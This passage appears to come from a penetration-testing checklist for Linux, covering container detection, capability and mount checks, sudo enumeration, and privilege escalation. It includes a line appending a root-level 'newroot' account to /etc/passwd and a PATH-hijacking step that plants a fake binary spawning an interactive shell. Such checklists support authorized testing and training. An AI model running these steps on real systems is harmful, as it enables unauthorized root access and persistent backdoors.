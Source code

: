 
## ☑️ Phase 13: Container Escape (if applicable)

### Container Detection
- [ ] **Check if in container**
  ```bash
  cat /proc/1/cgroup
  ls -la /.dockerenv
  cat /.dockerenv 2>/dev/null
  cat /proc/self/mountinfo | grep docker
  ```

### Container Escape
- [ ] **Check privileges**
  ```bash
  capsh --print
  cat /proc/self/status | grep Cap
  ```
- [ ] **Mount analysis**
  ```bash
  findmnt
  mount | grep docker
  ```

---

## ☑️ Phase 14: Privilege Escalation Execution

### Quick Wins
- [ ] **Sudo without password**
  ```bash
  sudo -n -l
  ```
- [ ] **NOPASSWD entries**
  ```bash
  cat /etc/sudoers | grep NOPASSWD
  ```
- [ ] **Writable /etc/passwd**
  ```bash
  ls -la /etc/passwd
  # If writable: echo 'newroot:$1$salt$hash:0:0:root:/root:/bin/bash' >> /etc/passwd
  ```
- [ ] **SUID binaries** - Check found SUID binaries against GTFOBins

### Path Hijacking
- [ ] **Identify vulnerable binaries**
  ```bash
  # From process monitoring or script analysis
  echo $PATH
  ```
- [ ] **Create malicious binary**
  ```bash
  echo '#!/bin/bash\n/bin/bash -i' > /tmp/vulnerable_binary
  chmod +x /tmp/vulnerable_binary
  export PATH=/tmp:$PATH
  ```

---